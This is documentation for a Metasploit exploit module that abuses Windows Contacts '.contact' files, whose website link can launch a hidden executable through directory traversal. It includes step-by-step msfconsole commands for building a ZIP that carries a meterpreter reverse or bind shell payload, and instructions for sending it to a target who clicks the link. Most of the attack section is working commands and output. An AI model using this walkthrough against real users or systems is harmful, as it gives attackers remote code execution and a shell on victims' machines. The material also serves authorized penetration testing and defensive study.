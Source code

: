 ## Description

This module allows remote attackers to execute arbitrary code on vulnerable
installations of Microsoft Windows.  User interaction is required to exploit
this vulnerability in that the target must visit a malicious page or open a
malicious file.  The flaw is due to the processing of ".contact" files <c:Url>
node param which takes an expected website value, however if an attacker
references an executable file it will run that instead without warning instead
of performing expected web navigation.  This is dangerous and would be
unexpected to an end user.

Executable files can live in a sub-directory so when the ".contact" website link
is clicked it traverses directories towards the executable and runs.  Making
matters worse is if the the files are compressed then downloaded "mark of the
web" (MOTW) may potentially not work as expected with certain archive utilitys.
The "." chars allow directory traversal to occur in order to run the attackers
supplied executable sitting unseen in the attackers directory.  This advisory is
a duplicate issue that currently affects Windows .VCF files, and released for
the sake of completeness as it affects Windows .contact files as well.

## Vulnerable Application

Windows Contacts
(tested on Windows 10.0.18282)

## Verification Steps

1. `./msfconsole`
2. `use exploit/windows/fileformat/microsoft_windows_contact`
3. Configure the payload.  For example: `set PAYLOAD windows/x64/meterpreter/bind_tcp`
4. Configure the payload parameters.  For example: `set LHOST 192.168.1.1`
5. Enter the name of the user to be embedded in the contact, which will also be used as the filename for the .ZIP and .CONTACTS files.  For example, `set FILENAME John Smith`
6. Enter the fake URL that the user must click to launch the payload.  Note, this does not need to be a valid domain.  For example: `set WEBSITE metasploit.com`
7. `run`
8. Confirm the ZIP file was created, and that it contains a `.CONTACT` file along with a payload in the `http` folder.

## Scenarios

### Exploiting a Windows 10 host

1. Configure the module-specific settings.

```
msf5 exploit(windows/fileformat/microsoft_windows_contact) > set WEBSITE metasploit.com
WEBSITE => metasploit.com
msf5 exploit(windows/fileformat/microsoft_windows_contact) > set FILENAME John Smith
FILENAME => John Smith
```

2. Configure the payload.
```
msf5 exploit(windows/fileformat/microsoft_windows_contact) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/microsoft_windows_contact) > set LHOST 192.168.1.148
LHOST => 192.168.1.148
msf5 exploit(windows/fileformat/microsoft_windows_contact) > run

[+] Creating 'John Smith.zip'
```

3. Send the ZIP to the target machine.

4. On the target machine, extract the ZIP file, open the .CONTACT file in the Windows Contacts viewer, and click the URL in the "Website" field.
